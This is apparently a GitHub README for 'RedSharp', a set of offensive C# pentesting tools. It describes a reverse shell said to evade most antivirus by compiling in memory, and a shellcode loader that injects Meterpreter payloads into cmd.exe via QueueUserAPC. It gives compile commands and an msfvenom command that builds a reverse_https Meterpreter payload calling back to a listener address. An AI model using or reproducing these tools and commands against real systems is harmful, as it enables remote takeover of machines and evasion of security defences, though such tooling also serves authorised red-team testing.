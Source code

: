 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT
```

## SharpMeter
Executing Meterpreter generated shellcode via QueueUserAPC:  
(create a new process, "cmd.exe" in this case, and injects and executes shellcode in process memory).  
First, generate your Meterpreter payload in C# format, like this :  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_https  lhost=10.200.3.163 lport=443 -f csharp -o pay.txt```  
Watch out to your architecture choice! x64 payload will only work with x64 executable version of sharpmeter.  
Do not touch generated payload format (not even the variable name)! Leave it as it is.
```
Usage :
sharpmeter.exe PATH_TO_PAYLOAD

Setup your Meterpreter handler+payload listener on the attacking machine
```
An example payload (x64 format) is attached inside the project. IDE VS 2015, csproj is available.  
This program is capable of running ANY shellcode but you need to be aware of shellcode format; it has to be in "meterpreter" format, so you may eventually convert it (but it's an easy task)
